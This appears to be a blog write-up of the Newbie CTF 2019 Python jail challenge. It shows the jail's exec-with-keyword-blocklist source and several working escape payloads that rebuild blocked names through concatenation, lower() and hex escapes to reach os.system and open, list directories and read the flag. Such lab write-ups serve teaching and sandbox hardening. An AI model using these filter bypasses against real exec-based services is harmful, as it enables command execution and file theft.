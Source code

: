 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019)"
date: "March 3, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "/images/posts/jailescape/image-e1658960653261.webp"
time_read: "5 min"
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed, since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

![](/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">Hi! Welcome to pyjail!
<span style="color: #666666">========================================================================</span>
<span style="color: #60a0b0; font-style: italic">#! /usr/bin/python3</span>
<span style="color: #60a0b0; font-style: italic">#-*- coding:utf-8 -*-</span>
def main<span style="color: #666666">()</span>:
print<span style="color: #666666">(</span>“Hi! Welcome to pyjail!”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>open<span style="color: #666666">(</span>__file__<span style="color: #666666">)</span>.read<span style="color: #666666">())</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“RUN”<span style="color: #666666">)</span>
<span style="color: #bb60d5">text</span> <span style="color: #666666">=</span> input<span style="color: #666666">(</span>‘&gt;&gt;&gt; ‘<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">for </span>keyword in <span style="color: #666666">[</span>‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’<span style="color: #666666">]</span>:
<span style="color: #007020; font-weight: bold">if </span>keyword in text:
print<span style="color: #666666">(</span>“No!!!”<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">return</span>;
<span style="color: #007020; font-weight: bold">else</span>:
<span style="color: #007020">exec</span><span style="color: #666666">(</span>text<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">if </span><span style="color: #bb60d5">__name__</span> <span style="color: #666666">==</span> “__main__”:
main<span style="color: #666666">()</span>
<span style="color: #666666">========================================================================</span>
RUN
</pre></div>

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called “import” and pass it the input “os”. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **builtins** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="color: #4070a0">&#39;__builtins__&#39;</span>], <span style="color: #4070a0">&#39;__im&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;port__&#39;</span>)(<span style="color: #4070a0">&#39;o&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;s&#39;</span>), <span style="color: #4070a0">&#39;sys&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;tem&#39;</span>)(<span style="color: #4070a0">&#39;ls .&#39;</span>))
<span style="color: #888888">bin</span>
<span style="color: #888888">boot</span>
<span style="color: #888888">dev</span>
<span style="color: #888888">etc</span>
<span style="color: #888888">home</span>
<span style="color: #888888">lib</span>
<span style="color: #888888">lib32</span>
<span style="color: #888888">lib64</span>
<span style="color: #888888">libx32</span>
<span style="color: #888888">media</span>
<span style="color: #888888">mnt</span>
<span style="color: #888888">opt</span>
<span style="color: #888888">proc</span>
<span style="color: #888888">root</span>
<span style="color: #888888">run</span>
<span style="color: #888888">sbin</span>
<span style="color: #888888">srv</span>
<span style="color: #888888">sys</span>
<span style="color: #888888">tmp</span>
<span style="color: #888888">usr</span>
<span style="color: #888888">var</span>
<span style="color: #888888">0</span>
<span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>__im<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>port__<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>o<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>s<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>sys<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>tem<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>cat home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>))

<span style="color: #888888">KorNewbie{H311o*h0w*@r3_y0u_d0lng?}</span>

</pre></div>

Another solution to the Capture the Flag challenge is to use lower() string method:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #888888">&gt;&gt;&gt;__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)</span>
</pre></div>

We could also encode the strings to display the hidden key:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(main, <span style="border: 1px solid #FF0000">‘</span>__globals__<span style="border: 1px solid #FF0000">’</span>)[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>\x6f\x70\x65\x6e<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span><span style="color: #666666">/</span>home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>, <span style="border: 1px solid #FF0000">‘</span>rb<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>\x72\x65\x61\x64<span style="border: 1px solid #FF0000">’</span>)())
<span style="color: #888888">b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}</span>
</pre></div>

